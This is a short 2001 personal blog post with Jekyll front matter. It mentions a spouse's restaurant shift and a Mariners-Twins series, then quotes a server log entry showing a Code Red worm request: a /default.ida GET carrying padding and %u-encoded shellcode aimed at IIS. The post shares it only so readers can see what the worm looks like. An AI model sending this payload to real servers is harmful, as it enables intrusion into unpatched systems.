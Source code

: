 ```yaml
---
layout: post
title: Drunk and disorderly
date: 2001-07-20 18:07:53.000000000 +02:00
categories:
- General
tags: []
status: publish
type: post
published: true
meta: {}
author:
  login: shanson
  email: papascott-wp@gmail.com
  display_name: PapaScott
  first_name: Scott
  last_name: Hanson
---
```

<p>In a back-to-the-basics action, Mama is this evening working the closing shift at one of her inner-city restaurants. I'm sure she'd appreciate some unruly customers at the Dammtor train station around midnight tonight, if you happen to be in the area.</p>
<p>I wish I could be at the Metrodome for the 4-game Mariners-Twins series this weekend.</p>
<pre>193.xxx.118.xx - - [19/Jul/2001:14:42:57 -0400] 
"GET /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858
%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190
%u00c3%u0003%u8b00%u531b%u53ff%u0078%u0000
%u00=a  HTTP/1.0" 404 205</pre>
<p>... just in case you're wondering what <a href="http://news.cnet.com/news/0-1003-200-6604515.html">code red</a> looks like. Then again, I'm sure most webmasters have several dozen of these in their log files.</p>
